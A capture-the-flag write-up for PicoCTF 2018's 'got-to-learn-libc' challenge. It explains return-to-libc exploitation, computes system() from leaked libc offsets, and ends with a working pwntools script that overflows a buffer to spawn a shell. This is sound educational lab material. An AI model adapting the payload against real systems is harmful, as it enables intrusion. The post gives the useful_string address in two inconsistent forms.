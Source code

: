 ```yaml
---
layout: post
title: Binary Exploitation: got-to-learn-libc (250) - PicoCTF 2018
categories: [general, CTFs]
tags: [CTFs, picoCTF2018]
fullview: true
comments: true
---
```


# Binary Exploitation: got-to-learn-libc (250) - PicoCTF 2018

So this challenge was a great introduction for the concept of ret-2-libc.
As we run the binary we were given a several addresses from libc, that may be really  useful in our exploit.
> Here are some useful addresses:
> 
> puts: 0xf7e2bb40
>
> fflush 0xf7e29cb0
>
> read: 0xf7eaacb0
>
> write: 0xf7eaad80
>
> useful_string: 0x56575030

*Keep in mind that this addresses are random when running the binary on  the remote server due to ASLR.

So apparently we get the addresses of some functions that can be found in libc, as well as an address of a "useful_string".
By examine the binary with GDB we can view the content of this particular address, and we found out that it points to the following string

>  gdb-peda$ x/s 0x56557030
>
> 0x56557030 <**useful_string**>: "/bin/sh"

Knowing that our goal is getting a shell, having the address of `"/bin/sh"` is very useful. Basically our goal is to find a way to call `system` with `"/bin/sh"`, as it will result with a shell on the remote server, and the ability to view the content of flag.txt.

# So what is actually the "ret-2-libc" technique? 
Simply put, "return-to-libc" allows us to bypass protections like NX on the stack which defeat execution from stack. So even if we have a buffer-overflow (And we do have one in this challenge), we can't just write our shell-code to the stack and overwrite the return address to jump back to it and execute the shell-code, because the stack is protected.
What we can do, however, is to use the fact we have a buffer overflow to create a fake function stack frame, consisting of the address of a function that is already loaded into the process' memory (`system`) and give it an appropriate argument (in this case, the address of `"/bin/sh"`).

* You may check the following article to get a better grip and knowledge about ret-2-libc - [Return-to-libc - ExploitDB](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf) 


So the stack should look like this:

|Before|
|---|
|**Lower Memory Address**|
|Real Return Address|
|something|
|something|
|**Higher Memory Address**|

** **

|After|
|---|
|**Lower Memory Address**|
|System's Address|
|Fake Return Address |
|"/bin/sh" Address|
|**Higher Memory Address**|

* Notice that we use a fake return address because when a function is called the arguments are pushed first, and then the return address is pushed as well.


# Getting the address of system 
It's about time we'll take advantage of the functions' address we got.
Basically, we only need an libc address of one function.
As I mentioned earlier there is a possibility  we have an ASLR protection on the remote server so the address of `system` is different each time, but the difference between the address of another libc function (`puts` for example) and the address of `system` is always the same - offsets don't change.

Since we have access to libc in the path `lib/i386-linux-gnu/libc.so.6`we can use `readelf` to get the offset of puts from the `libc base address` and than adding to that address the offset of `system` which will give us the long-awaited address of `system`.
So `readelf -s lib/i386-linux-gnu/libc.so.6 | grep puts` gave us the offset `0x5f140`, and `readelf -s lib/i386-linux-gnu/libc.so.6 | grep system` gave us the offset `0x3a940`. 

# The script
```python
from pwn import *

addresses = {}
SYSTEM_OFFSET = 0x3a940
PUTS_OFFSET = 0x5f140

def get_useful_addresses():
	r.recvline()
	r.recvline()
	add = r.recvuntil("Enter")
	for address in add.split("\n"): 
		if address != "" and address != "Enter" and ":" in address:
			addresses[address.split(": ")[0]] = address.split(": ")[1] 

def handle_logic():
	get_useful_addresses()
	r.recvuntil("ring:")
	libc_base_address = hex((int(addresses['puts'], 16) - PUTS_OFFSET))
	system_libc_address = hex(int(libc_base_address, 16) + SYSTEM_OFFSET)
	print ("libc base address - " + libc_base_address)
	print ("system libc address - " + system_libc_address)
	payload = "A"*160
	payload += p32(int(system_libc_address, 16))
	payload += p32(int("0xdeadbeef", 16)) 
	payload += p32(int(addresses['useful_string'],16))
	r.sendline(payload)
	

if __name__ == "__main__":
	r = process(['./vuln'])
	handle_logic()
	r.interactive()
```

